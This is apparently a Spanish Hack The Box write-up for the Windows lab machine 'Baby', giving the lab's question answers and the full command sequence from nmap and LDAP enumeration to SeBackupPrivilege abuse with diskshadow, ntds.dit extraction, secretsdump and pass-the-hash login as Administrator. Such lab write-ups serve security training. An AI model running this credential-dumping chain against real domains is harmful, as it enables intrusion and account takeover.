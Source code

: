 ```yaml
---
title: Writeup baby - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - baby
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina baby en Hack The Box.
keywords:
  - writeup baby
  - hack the box baby
  - resolución máquina baby
  - baby hack the box
  - htb baby
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/Facil/Windows/Baby)
- 📺 **Resolución en vivo (completa)**: [Parte1](https://www.youtube.com/watch?v=Usq5mILINJs)|[Parte2](https://www.youtube.com/watch?v=4huQQ84NGUM)|[Parte3](https://www.youtube.com/watch?v=XSfmFRoq_FA)|[Parte4](https://www.youtube.com/watch?v=ef46UQ4P6uM)|[Parte5](https://www.youtube.com/watch?v=5kadobjPP_g)
- 🧠 **Explicación resumida**: 

---

#nmap #ping #easy #windows #netexec #startlab #nvim #/etc/hosts #evil-winrm #ntdsdit #diskshadow #impacket-secretsdump #mkdir #cd #ldap #smb

-----
# Guided Mode

1)¿Cuál es el nombre de dominio completo de Baby?
	BabyDC.baby.vl

2)¿Qué usuario tiene una contraseña expuesta en su campo de descripción LDAP?
	Teresa.Bell

3)¿Qué cuenta de usuario debe restablecer su contraseña caducada antes de iniciar sesión?
	Caroline.Robinson

*La pregunta anterior es la flag de user.txt*
5)¿Qué privilegio peligroso tiene el usuario Caroline.Robinson asociado a su cuenta?
	SeBackupPrivilege

6)¿Qué archivo contiene los hash cifrados del dominio de usuario?
	NTDS.dit

7)¿Cuál es el hash de dominio del usuario 
	ee4457ae59f1e3fbd764e33d9cef123d
	
-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

Se puede utilizar la version automatizada que tenemos creada con [[startlab]] o si no de forma manual con los siguientes comandos

```shell
ping -c 1 IP
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn IP -oG allPortsTCP
extractPorts allPortsTCP
nmap -sCV -pPuertos IP -oN targetTCP
nmap -sU -n -Pn --top-ports 200 IP -oG allPortsUDP
extractPorts allPortsUDP
nmap -sU -sCV -pPuertos IP -oN targetUDP
```

![[Baby1.png]]

![[Baby2.png]]
![[Baby3.png]]

![[Baby4.png]]
*TTL:* Maquina Windows
*Puertos relevantes TCP:*
	`389` LDAP
	`445` [[smb]]
	`5985`[[evil-winrm]]
	
*Puertos UDP:*
	Mucho ruido, nada importante

*Datos relevantes:*
	Nos da el dominio baby.vl

-------
# Agregamos dominio al /etc/hosts
Usamos [[nvim]] con el comando `nvim /etc/hosts` para abrir el archivo

![[Baby5.png]]
![[Baby6.png]]
```
10.129.110.102 baby.vl
```

------
# Conseguimos credenciales del usuario Caroline.Robinson con [[netexec]]

Con [[netexec]] vamos a usar `netexec ldap baby.vl -u''-p'' --users` para enumerar todos los usuarios, y vemos que el de Teresa.Bell tiene una descripcion que nos indica una posible contraseña

![[Baby9.png]]
Teresa.Bell:BabyStart123!

Ahora utilizamos la query de objectclass para enumerar todos los objetos y encontramos a Caroline Robinson que no nos aparece en usuario, asi que vamos a probar las siguientes credenciales
`netexec ldap baby.vl -u''-p'' --query "(objectClass=*)" ""`
![[Baby11.png]]
Caroline.Robinson:BabyStart123!


Nos intentamos conectar con smb para verificar si sirven las credenciales y nos da el error de que tenemos que cambiar la contraseña
``netexec smb baby.vl -u 'Caroline.Robinson' -p 'BabyStart123!'``

![[Baby10.png]]

Buscando en internet encontramos este [articulo](https://www.netexec.wiki/smb-protocol/change-user-password) donde nos dice como cambiar la contraseña 

``netexec smb baby.vl -u Caroline.Robinson -p 'BabyStart123!' -M change-password -o NEWPASS=pawnedexploit123.``
![[Baby12.png]]
Una vez cambiada la contraseña nos vamos a conectar con [[evil-winrm]]

``evil-winrm -i baby.vl -u "Caroline.Robinson" -p "pawnedexploit123." -P 5985``

![[Baby19.png]]
![[Baby13.png]]
Ya estamos adentro y tenemos la primera flag de user.txt


----
# Escalada de privilegios con [[diskshadow ntds.dit]]

Usamos el comando [[whoami]] con `whoami /all`
Vemos que tenemos los permisos de SeBackupPrivilege + SeRestorePrivilege


Con [[nvim]] vamos crear un archivo con el siguiente contenido y lo vamos a poner en un archivo que se llama exploit.txt

```
set context persistent nowriters
set metadata c:\programdata\df.cab
set verbose on
add volume c: alias df
create
expose %df% z:
```

Ahora con [[unix2dos]] usando `unix2dos exploit.txt` para que reconozca bien los finales de linea y lea todo el contenido, ya que cuando lo ejecutaba sin pasarle el unix2dos no me detectaba todo el codigo
![[Baby24.png]]
Vamos a subir el archivo *exploit.txt* usando el comando `upload exploit.txt` que tiene [[evil-winrm]]
Con el comando `diskshadow /s exploit.txt` vamos a ejecutar las instrucciones tenemos en el exploit.txt
![[Baby25.png]]
Ya se nos creo una nueva particion que es la *z* donde esta el archivo *ntds.dit* ubicado en *z:/Windows/ntds/ntds.dit*


En la particion de *C:* cree una carpeta con [[mkdir]] usando el comando `mkdir tmp` que se llama tmp para trabajar en ese directorio mas comodamente. y con [[cd]] usamos ``cd C:/tmp`` ya nos vamos a quedar en el directorio
Con la herramienta [[robocopy]] vamos a usar el comando `robocopy /B z:\Windows\NTDS . ntds.dit` para copiar el archivo ntds.dit al directorio actual de trabajo que en este caso es la carpeta tmp


![[Baby28.png]]

![[Baby29.png]]
con `download ntds.dit` vamos a descargar el archivo a nuestra maquina de atacante

Vamos a usar `reg save hklm\system c:\tmp\system` para guardar un archivo de la rama del registro de windows
![[Baby27.png]]
Y despues con `download system` vamos a descargar el archivo a nuestra maquina de ata cante
# Con [[impacket-secretsdump]] vamos a dumpear el hash del usuario administrator

```
sudo impacket-secretsdump -system system -ntds ntds.dit LOCAL
```

![[Baby32.png]]
Obtenemos las credenciales administrator:ee4457ae59f1e3fbd764e33d9cef123d

Ahora con [[evil-winrm]] nos vamos a conectar 
``evil-winrm -i baby.vl -u "Administrator" -H "ee4457ae59f1e3fbd764e33d9cef123d" -P 5985``
![[Baby30.png]]
Ya podemos catear la flag


---------
# Creditos

[Writeup de la maquina blackfield de 0xdf](https://0xdf.gitlab.io/2020/10/03/htb-blackfield.html?_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es) para hacer el diskshadow